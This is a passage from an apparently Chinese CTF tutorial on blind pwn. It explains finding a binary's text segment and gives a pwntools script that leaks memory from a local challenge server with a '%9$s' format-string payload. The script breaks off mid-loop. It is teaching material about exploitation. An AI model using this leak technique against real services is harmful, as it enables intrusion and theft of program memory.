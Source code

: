 最后在偏移 1164 和 1188 找到 text 段地址 0x8048510 ，可以对比上图，上图是这条例题的截图：

![](_images/Bilnd_Pwn/2020-06-27-Z0d5pjXygPrfk4kN.png)

泄露脚本和前面一样只需要修改一下起始地址：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level = 'info' 
r = remote('127.0.0.1',10001)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048510
#begin = 0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
```